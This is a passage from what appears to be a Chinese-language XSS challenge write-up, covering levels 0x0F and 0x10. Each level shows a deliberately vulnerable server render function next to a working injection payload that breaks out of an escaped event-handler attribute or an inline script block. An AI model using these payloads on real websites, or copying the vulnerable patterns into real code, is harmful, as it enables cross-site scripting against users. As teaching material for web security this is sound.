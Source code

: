 - server code

```js
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`
}
```

- solution

输出点为HTML标签`img`内，所以HTML实体编码无影响。

```html
//input code
');alert('1
//html
<img src onerror="console.error('&#39;);alert(&#39;1')">
```

## 0x10

- server code

```js
function render (input) {
  return `
<script>
  window.data = ${input}
</script>
  `
}
```

- solution

闭合输出即可。

```html
//input code
'1';alert(1)
//html
<script>
  window.data = '1';alert(1)
</script>
```

## 0x11 
